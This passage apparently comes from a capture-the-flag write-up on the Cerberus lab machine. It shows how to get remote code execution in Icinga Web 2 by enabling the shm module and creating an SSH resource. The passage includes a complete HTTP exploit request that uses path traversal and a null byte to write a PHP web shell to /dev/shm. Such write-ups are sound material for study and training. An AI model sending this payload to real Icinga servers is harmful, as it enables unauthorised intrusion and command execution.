 Then, we can quickly enable the `shm` module in `/config/moduleenable`.&#x20;

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to create a new resource with a private SSH key and upload it. Thsi can be done through `/config/resource` and adding resources for SSH Identities. Afterwards, we can simply send another request with our exploit:

{% code overflow="wrap" %}
```http
POST /icingaweb2/config/createresource HTTP/1.1
Host: icinga.cerberus.local:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Icinga-Accept: text/html
X-Icinga-Container: col2
X-Icinga-WindowId: jaevlhxwkugs_fgnrls
X-Requested-With: XMLHttpRequest
Content-Length: 287
Origin: http://icinga.cerberus.local:8080
Connection: close
Referer: http://icinga.cerberus.local:8080/icingaweb2/config/resource
Cookie: Icingaweb2=tbt6c7vhlitggtddqjs9911s4v; icingaweb2-session=1679242760; icingaweb2-tzo=-14400-1



type=ssh&name=notakey&user=.../../../../../../../dev/shm/shell.php&private_key=file:///etc/icingaweb2/ssh/test\x00<?php+system($_REQUEST['cmd']);?>&formUID=form_config_resource&CSRFToken=287102571%7Cfe7a12539b6a50fd04400ed33c28c9cd4db0ae08f0d2333067009010bd9c1861&btn_submit=Save+Changes
```
{% endcode %}

Visting the URL below would give us RCE!

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
